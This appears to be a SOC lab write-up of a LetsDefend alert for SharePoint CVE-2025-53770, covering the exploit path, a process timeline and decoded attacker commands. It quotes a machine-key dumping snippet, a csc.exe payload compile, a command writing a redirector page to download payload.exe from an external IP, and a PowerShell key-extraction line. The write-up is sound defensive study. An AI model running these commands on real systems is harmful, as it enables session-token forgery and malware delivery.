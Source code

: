 ```yaml
---
title: CVE‑2025‑53770 SharePoint
description: CVE‑2025‑53770 SharePoint
date: 2025-07-26
summary: A look at a SOC alert for CVE‑2025‑53770 SharePoint
categories:
  - Labs
  - LetsDefend
  - SOC Labs
---
```

![featured.jpg](featured.jpg)

# CVE‑2025‑53770
*Source: [SANS](https://www.sans.org/blog/critical-sharepoint-zero-day-exploited-what-you-need-to-know-about-cve-2025-53770), [CISA](https://www.cisa.gov/news-events/alerts/2025/07/20/update-microsoft-releases-guidance-exploitation-sharepoint-vulnerabilities), [LOLBAS](https://lolbas-project.github.io/lolbas/Binaries/Csc/)*

## What is the vulnerability?

**CVE‑2025‑53770 | SharePoint vulnerability**
<br>Affects on-prem instances (2016, 2019, Subscription editions). It bypasses authentication to facilitate the following: upload files, execute a web shell, and steal the machineKey. It works by exploiting ToolPane.aspx via a spoofed referrer header (SignOut.aspx).
## What is the alert?

![alert.png](images/alert.png)

>**Alert Trigger Reason**: *Suspicious unauthenticated POST request targeting ToolPane.aspx with large payload size and spoofed referer indicative of CVE-2025-53770 exploitation.*

It looks like the exploitation has been successful. We can see an unauthenticated POST request against ToolPane.aspx, and Signout.aspx in the referrer header. A large payload size to note here.


>**Source IP Address:** 107.191.58.76
- This IP looks to be associated with the vulnerability, in the wild.

![ipinfo.png](images/ipinfo.png)

## Summary
We have a true positive exploit of CVE‑2025‑53770. The adversary has successfully exploited the vulnerability and post-exploitation phase is evident. 

w3wp.exe was used to spawn an encoded powershell script. This script facilitated the extract of the ASP.NET MachineKey. LOTL was observed, with csc.exe being used to compile a malicious *payload.exe*. A malicious page *spinstall0.aspx* was created which redirects users to the adversary's *payload.exe*

## Analysing the endpoint
![endpoint.png](images/endpoint.png)
> OS: Windows Server 2019

-  We are vulnerable.


## Timeline

| Time     | Process        | Overview                                               | Child Process  |
| -------- | -------------- | ------------------------------------------------------ | -------------- |
| 13:07:11 | w3wp.exe       | Process that supports SharePoint                       | powershell.exe |
| 13:07:24 | powershell.exe | Run Base64 code (Code 1).                              | csc.exe        |
| 13:07:27 | csc.exe        | Compile payload.cs as payload.exe (Code 2)             | cmd.exe        |
| 13:07:29 | cmd.exe        | Write malicious spinstall0.aspx to SharePoint (Code 3) | powershell.exe |
| 13:07:34 | powershell.exe | Gather machine key (Code 4)                            |                |

### Terminal History
![terminal.png](images/terminal.png)

There is a bit to unpack here lets start with item 1.

#### Code 1
Flags: 
`-nop, -w hidden, -e`
- No profile
- Hide the PowerShell window
- EncodedCommand

After decoding the Base64 commands we get:
![decoded.png](images/decoded.png)

It looks like we are looking at an exfiltration script.

We can gather the following:
```
%@ Import Namespace="System.Diagnostics" %
%@ Import Namespace="System.IO" %
script runat="server" language="c#"
```

- Server side C# execution
- ASP.NET 

``` 
var mkt = sy.GetType("System.Web.Configuration.MachineKeySection");
Response.Write(cg.ValidationKey+"|"+cg.Validation+"|"+cg.DecryptionKey+"|"+cg.Decryption+"|"+cg.CompatibilityMode);
```

- Gathers and outputs machine keys from Web.Configuration
	- ValidationKey
	- DecryptionKey
- These crypto keys are used to authenticate user sessions
	- Now the adversary can forge valid auth. tokens 

#### Code 2
```
"C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /out:C:\Windows\Temp\payload.exe C:\Windows\Temp\payload.cs
```

- csc.exe is a binary file used by .NET to compile C#, this is a LOTL
- Malicious code payload.cs is compiled as payload.exe

#### Code 3
```
"C:\Windows\System32\cmd.exe" /c echo <form runat=\"server\"> <object classid=\"clsid:ADB880A6-D8FF-11CF-9377-00AA003B7A11\"><param name=\"Command\" value=\"Redirect\"> <param name=\"Button\" value=\"Test\"> <param name=\"Url\" value=\"http://107.191.58.76/payload.exe\"></object></form> > C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx`
```

- Run command via cmd
- Drop redirector page spinstall0.aspx to SharePoint Layouts directory
- This triggers a redirect to download payload.exe from adversary's infrastructure

#### Code 4
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Command "[System.Web.Configuration.MachineKeySection]::GetApplicationConfig()"
```
- Use Powershell to gather Machine Key






